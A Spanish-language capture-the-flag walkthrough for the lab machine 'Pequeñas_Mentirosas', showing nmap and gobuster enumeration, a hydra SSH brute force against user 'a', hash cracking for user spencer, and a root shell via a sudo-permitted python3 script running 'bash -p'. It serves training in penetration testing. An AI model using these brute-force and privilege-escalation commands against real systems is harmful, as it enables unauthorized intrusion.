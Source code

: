 # Pequeñas_Mentirosas

## 1. Reconocimiento de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones. 

```bash
nmap -sC -sV --open <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `22/tcp open ssh OpenSSH 9.2p1 Debian`
*   `80/tcp open http Apache httpd 2.4.62 ((Debian))

## 2. Enumeración Web y Pista Inicial

Al acceder a la dirección IP del objetivo en un navegador web, la página muestra una pista importante.

### 2.1. Pista en la Página Web

La página web contiene el mensaje: "Pista: Encuentra la clave para A en los archivos.". Esto sugiere que hay un usuario llamado "A" y que su clave (probablemente una contraseña o clave SSH) está oculta en algún archivo del sistema.

### 2.2. Búsqueda de Directorios (Gobuster)

Aunque la pista es clara, siempre es buena práctica realizar una enumeración de directorios con herramientas como `gobuster` para descubrir posibles rutas ocultas o archivos interesantes en el servidor web.

```bash
gobuster dir http://<IP_DEL_OBJETIVO>/ -w /path/to/wordlist/directory-list-2.3-medium.txt -x html,php
```

En este caso, la enumeración de directorios no revela nada directamente útil para la clave de "A", lo que nos redirige a la pista de los archivos.

## 3. Acceso Inicial (SSH)

La pista "Encuentra la clave para A en los archivos" y el puerto SSH abierto nos llevan a intentar un acceso SSH. A menudo, en CTFs, los nombres de usuario simples como letras o nombres comunes son los primeros a probar.

### 3.1. Fuerza Bruta SSH para el Usuario "a"

Intentamos un ataque de fuerza bruta contra el usuario `a` en el servicio SSH. Esto se hace para ver si una contraseña común o una de un diccionario puede funcionar.

```bash
hydra -l a -P /path/to/wordlist/rockyou.txt ssh://<IP_DEL_OBJETIVO>
```

**Resultado :**

*   `[22][ssh] host: <IP_DEL_OBJETIVO> login: a password: secret`

### 3.2. Conexión SSH como "a"

Con las credenciales obtenidas, nos conectamos al servidor SSH como el usuario `a`.

```bash
ssh a@<IP_DEL_OBJETIVO>
# Contraseña: secret
```

## 4. Movimiento Lateral y Descubrimiento de Pistas

Una vez dentro como el usuario `a`, necesitamos buscar más información para escalar privilegios o movernos lateralmente a otros usuarios.

### 4.1. Enumeración de Usuarios y Directorios Home

Exploramos el directorio `/home/` para identificar otros usuarios en el sistema. Esto nos revela la existencia de dos usuarios: `a` y `spencer`.

```bash
ls /home/
# a spencer
```

### 4.2. Búsqueda de Archivos en `/srv/ftp`

La pista inicial mencionaba "archivos". En sistemas Linux, el directorio `/srv` a menudo se utiliza para datos de servicios, como FTP. Aunque no vimos un servicio FTP en el escaneo inicial, es un lugar común para dejar archivos en CTFs.

Descargamos el contenido del directorio `/srv/ftp/` a nuestra máquina atacante usando `scp`.

```bash
scp a@<IP_DEL_OBJETIVO>:/srv/ftp/* ~/Pequenas_mentirosas
```

**Archivos Descargados y su Contenido:**

*   `clave_secreta.txt`: Contiene "Clave secreta: thisisaverysecretkey!". Esta es una clave, pero no está claro para qué es aún.
*   `mensaje_hash.txt`: Contiene "Descubre el hash y tendrás la clave...". Esto sugiere que hay un hash que debemos crackear.
*   `pista_fuerza_bruta.txt`: Contiene "Realiza un ataque de fuerza bruta para descubrir la contraseña de spencer...". Esta es una pista directa para el usuario `spencer`.
*   `retos.txt`: Contiene "Cifrado Simétrico: Usa AES para desencriptar el siguiente archivo.". Esto podría ser un reto adicional.
*   `retos_asimetricos`: Contiene "Cifrado Asimétrico: Encuentra la clave privada para desencriptar.". Otro reto.

### 4.3. Cracking de Hash para el Usuario Spencer

La pista nos indica que debemos crackear un hash para `spencer`. Utilizando una herramienta como `john` o `hashcat` con el hash de `spencer` y un diccionario, obtenemos la contraseña.

**Resultado Clave:**

*   `hash_spencer.txt: password1`

La contraseña para `spencer` es **password1**.

### 4.4. Conexión SSH como Spencer

Con las credenciales de `spencer`, nos conectamos al servidor SSH.

```bash
ssh spencer@<IP_DEL_OBJETIVO>
# Contraseña: password1
```

## 5. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `spencer`, el objetivo es escalar privilegios a `root`.

### 5.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `spencer` con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `User spencer may run the following commands on ...: (ALL) NOPASSWD: /usr/bin/python3`

### 5.2. Obtención de Shell de Root con Python

`python3` puede ser abusado para obtener un shell de `root`. Consultamos [GTFOBins](https://gtfobins.github.io/gtfobins/python/#sudo) para la técnica específica.

Creamos un pequeño script de Python (`exploit.py`) que ejecutará un shell de bash con privilegios de `root`.

```bash
touch exploit.py
echo -e "import os\nos.system(\"bash -p\")" > exploit.py
```

Luego, ejecutamos este script con `sudo` como `root`.

```bash
sudo -u root /usr/bin/python3 exploit.py
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```
